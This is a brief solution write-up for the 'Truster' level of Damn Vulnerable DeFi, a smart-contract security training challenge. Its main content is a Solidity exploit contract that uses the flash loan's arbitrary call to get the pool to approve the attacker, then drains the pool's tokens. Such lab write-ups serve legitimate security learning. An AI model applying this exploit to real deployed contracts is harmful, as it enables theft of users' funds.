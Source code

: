 # 02 Damn Vulnerable DeFi - Truster

https://www.damnvulnerabledefi.xyz/challenges/truster/


Key interaction is to approove token spending to exploit contract during flashLoan.

Exploit
```
contract Exploit {
    TrusterLenderPool trusterLenderPool;
    DamnValuableToken token;

    constructor(TrusterLenderPool _trusterLenderPool, DamnValuableToken _token) {
        trusterLenderPool = _trusterLenderPool;
        token = _token;
    }

    function exploit() external {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            token.balanceOf(address(trusterLenderPool))
        );

        trusterLenderPool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(trusterLenderPool), address(this), token.balanceOf(address(trusterLenderPool)));
    }
}
```
